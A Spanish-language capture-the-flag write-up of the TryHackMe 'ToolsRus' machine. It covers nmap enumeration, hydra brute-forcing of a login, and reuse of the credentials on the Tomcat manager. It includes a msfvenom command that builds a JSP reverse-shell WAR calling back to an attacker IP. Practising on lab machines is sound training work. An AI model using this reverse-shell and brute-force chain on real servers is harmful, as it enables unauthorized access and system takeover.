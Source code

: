 ```yaml
---
layout: single
title: ToolsRus - Try Hack Me
excerpt: ToolsRus maquina catalogada de dificultad “Easy” esta maquina esta sobretodo centrada en el uso de diferentes herramientas además de un buen proceso de enumeración. Vamos a ver de que se trata.
date: 2022-02-26
classes: wide
header:
  teaser: /assets/images/thm-toolsrus/1.jpg
  teaser_home_page: true
  icon: /assets/images/thm.webp
categories:
  - TryHackMe
tags:  
  - dirbuster
  - nikto
  - metasploit
  - hydra
  - Easy
  
---
```


![](/assets/images/thm-toolsrus/1.jpg)

ToolsRus maquina catalogada de dificultad “Easy” esta maquina esta sobretodo centrada en el uso de diferentes herramientas además de un buen proceso de enumeración. Vamos a ver de que se trata.

## 1-Escaneo Nmap y enumeración de puertos.

Primero vamos a ver ante que sistema estamos, si ante una maquina Linux o una maquina Windows, lo comprobaremos en base al TTL de la maquina.
Vamos a utilizar la herramienta WhichSystem para en base al TTL veamos ante que maquina estamos.

![](/assets/images/thm-toolsrus/2.jpg)

Por la proximidad del TTL (63), estamos ante una maquina linux.

Personalmente además de Nmap me gusta utilizar la herramienta fastTCPscan , que realiza un escaneo TCP muy rapido. Simplemente para obtener más información y utilizar diferentes herramientas.

![](/assets/images/thm-toolsrus/3.jpg)

Ahora realizamos un escaneo con Nmap para descubrir todos los puertos abiertos: sudo nmap -p- -sS --min-rate 5000 --open -vvv -n 10.10.146.87 -oG allports

Utilizaremos los parametros -p- (Indicar todos los puertos) -sS (Utilizan un TCP Syn port scan) --min-rate 5000 (Indicar paquetes no mas lentos que 5000 paquetes por segundo) --open (Mostrar aquellos puertos que tengan un estatus "open") -vvv (Arrojar un poco de inforación mientras se realiza el escaneo) -n (No aplicar resolución DNS) -oG (Guardar archivo en formato grepeable)

Nmap nos devuelve todo esto:

```
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n 10.10.146.87 -oG allports
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 14:14 CET
Initiating Ping Scan at 14:14
Scanning 10.10.146.87 [4 ports]
Completed Ping Scan at 14:14, 0.19s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:14
Scanning 10.10.146.87 [65535 ports]
Discovered open port 22/tcp on 10.10.146.87
Discovered open port 80/tcp on 10.10.146.87
Discovered open port 1234/tcp on 10.10.146.87
Discovered open port 8009/tcp on 10.10.146.87
Completed SYN Stealth Scan at 14:14, 12.29s elapsed (65535 total ports)
Nmap scan report for 10.10.146.87
Host is up, received echo-reply ttl 63 (0.040s latency).
Scanned at 2022-02-26 14:14:31 CET for 12s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
1234/tcp open  hotline syn-ack ttl 63
8009/tcp open  ajp13   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.68 seconds
           Raw packets sent: 68307 (3.005MB) | Rcvd: 67722 (2.709MB)
```

Vemos que nos devuelve bastantes puertos abiertos. Algunos insteresantes son el puerto 80 (http) , 22 (ssh) y otros diferentes como el 1234 y 8009 que ahora veremos de que tratan.

A continuación vamos a realizar un escaneo más profundo a estos puertos con el siguiente comando:

nmap -sC -sV -p22,80,1234,8009 10.10.146.87 -oN ports

Parametros -sC (Utilizar scripts comunes) y -sV (Mostrar versiones y servicios) -p (Indicar puertos en especifico) -oN (Guardar el archivo)


Nmap nos devulve esto:

```
nmap -sC -sV -p22,80,1234,8009 10.10.146.87 -oN ports
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 14:16 CET
Nmap scan report for 10.10.146.87 (10.10.146.87)
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 55:4b:91:3c:9a:96:fe:e2:fc:6a:95:21:90:b5:db:bd (RSA)
|   256 59:4b:53:91:10:3b:0c:5c:40:b9:10:df:f8:1d:61:8e (ECDSA)
|_  256 d9:b2:69:b0:8b:3b:19:a2:7c:2d:6d:c9:68:4f:aa:65 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds
```

Utilizaremos también whatweb para enumerar rapidamente el servicio http y ver ante que nos estamos enfrentando.

Nos duelve esto:

![](/assets/images/thm-toolsrus/4.jpg)


Vemos que nos arroja algo de información. En el puerto 80 tenemos una página que utiliza un servidor web Apache...
En el puerto 1234 tenemos un Apache-Coyote que a continuación veremos de que trata. 

## 2-Enumeración

Primero vamos a ver que aspecto contiene la página en el puerto 80.

![](/assets/images/thm-toolsrus/5.jpg)

Vemos que no hay practicamente nada, solo un comentario que nos dice que no esta disponible pero que hay otras partes de la web que sí.

Vamos a utilizar la herramienta gobuster para buscar directorios y contenidos en el mismo.

![](/assets/images/thm-toolsrus/6.jpg)

Tenemos un directorio llamado guidelines al que podemos acceder y otro llamado "protected" , al cual no.

Vamos a ver el contenido de guidelines

![](/assets/images/thm-toolsrus/7.jpg)

Solo tenemos un comentario el que nos dice. "¿Hola bob actualizastes ese servidor Tomcat?"

![](/assets/images/thm-toolsrus/8.jpg)

Vamos a ir al servidor al directorio protected haber que tenemos.

Vemos que tenemos un login.

![](/assets/images/thm-toolsrus/9.jpg)

Vamos a probar algun usuario y contraseña por defecto -> User: admin , Pass: admin , password...
Lo mismo con el usuario Bob -> User: Bob , Pass: Bob , admin , password...

Si tras probar las tipicas credenciales no podemos acceder, vamos a realizar fuerza bruta. Primero al usuario bob, si no conseguimos nada iremos con el usuario admin.

Utilizaremos la herramienta hydra para realizar este ataque.

![](/assets/images/thm-toolsrus/10.jpg)

En cuestion de segundos obtenemos la contraseña, asi que vamos a probarla y ver que tenemos detrás de ese panel de login.

![](/assets/images/thm-toolsrus/11.jpg)

Solo vemos un comentario que nos dice: "Esta página protegida se ha movido a puerto diferente" , por lo cual, vamos a continuar enumerando.

Vamos a probar las credenciales en la página de tomcat.

![](/assets/images/thm-toolsrus/12.jpg)

Vemos que ganamos acceso.

![](/assets/images/thm-toolsrus/13.jpg)

![](/assets/images/thm-toolsrus/14.jpg)

## 3-Ganando acceso a la maquina.

Una vez ya tenemos acceso al panel de administrador en tomcat, vamos a crear una reverse shell para conectarnos.
Lo aremos utilizando la consola meterpreter.

Primero crearemos un payload de la siguiente manera -> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.8.85 LPORT=4545 -f war -o rshell.war

![](/assets/images/thm-toolsrus/16.jpg)

Ahora vamos a abrir metasploit y a configurar un listener meterpreter.

Primero abrimos la herramienta metasaploit , luego configuraremos el modulo, las opciones del mismo y lo ejecutaremos.

![](/assets/images/thm-toolsrus/15.jpg)

Una vez creado el payload y estando en escucha, subiremos el archivo malicioso a la página de tomcat y lo abriremos.

![](/assets/images/thm-toolsrus/17.jpg)

Le daremos al boton de Browse, para buscar el archivo y una vez seleccionado seleccionamos el boton Deploy.

![](/assets/images/thm-toolsrus/18.jpg)

Ya tenemos el archivo subido a la página ahora solo con seleccionarlo nos devulve una reverse shell.

Una vez obtenida la reverse shell , vamos a escribir el comando "shell" para que nos de una consola interactiva y vamos a buscar la flag de root.

![](/assets/images/thm-toolsrus/19.png)

![](/assets/images/thm-toolsrus/20.jpg)

![](/assets/images/thm-toolsrus/final.png)























